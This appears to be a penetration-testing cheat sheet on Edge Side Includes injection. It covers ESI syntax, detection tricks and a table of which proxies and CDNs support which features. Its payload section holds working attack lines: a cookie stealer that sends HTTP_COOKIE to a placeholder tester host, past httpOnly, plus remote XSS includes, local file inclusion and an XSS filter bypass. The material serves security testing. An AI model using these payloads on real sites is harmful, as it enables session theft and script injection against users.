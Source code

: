 
# ESI Features & Syntax


## -Variables

### syntax 
```html
<esi:vars>$(VARIABLE_NAME)</esi:vars>
```

- $(HTTP_USER_AGENT) → Mozilla/5.0 (X11;[…]
- $(QUERY_STRING) → city=Montreal&format=C
- $(HTTP_COOKIE) → _ga=[…]&__utma=[…]
- $(HTTP_HEADER{Cookie}) → _ga=[…]&__utma=[…]

### example  
```html
<esi:vars>$(HTTP_COOKIE{PHPSESSID})</esi:vars>
```


## -Include

### syntax 
```html
<esi:include src="/path/to/file" />
```

### example  
##### //esi/page-1.html:
```html
<html>
<p>This is page 1!</p>
<esi:include src="//api/page-2.html" />
</html>
```
##### //api/page-2.html:
```
<p>This is page 2!</p>
```


## -Assign
### syntax
```html
<esi:assign name="var1" value="value"/>
```



# ESI payloads

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>

//xss bypass
x=<esi:assign name="var1" value="'cript'"/>
<s  <esi:vars name="$(var1)"/>  >
alert(/Chrome%20XSS%20filter%20bypass/);
</s <esi:vars name="$(var1)"/>  >

```



# Detection 

- **inspecting response headers in search for Surrogate-Control: content="ESI/1.0"**
- **we usually need to use a blind attack approach to detect if ESI is in use or not.**
- **Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible.**
```html
FOO<!--esi -->BAR → FOOBAR ✅
FOO<!--foo -->BAR → FOO<!--foo -->BAR ❌
```


# ESI-capable software differences

- **Includes**: Supports the <esi:includes> directive
- **Vars**: Supports the <esi:vars> directive. Useful for bypassing XSS Filters
- **Cookie**: Document cookies are accessible to the ESI engine
- **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

| Software                        | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
|---------------------------------|----------|------|---------|--------------------------|----------------|
| Squid3                          | Yes      | Yes  | Yes     | Yes                      | No             |
| VarnishCache                    | Yes      | No   | No      | Yes                      | Yes            |
| Fastly                          | Yes      | No   | No      | No                       | Yes            |
| Akamai ESI Test Server (ETS)    | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS esi                      | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS nodesi                   | Yes      | No   | No      | No                       | Optional       |
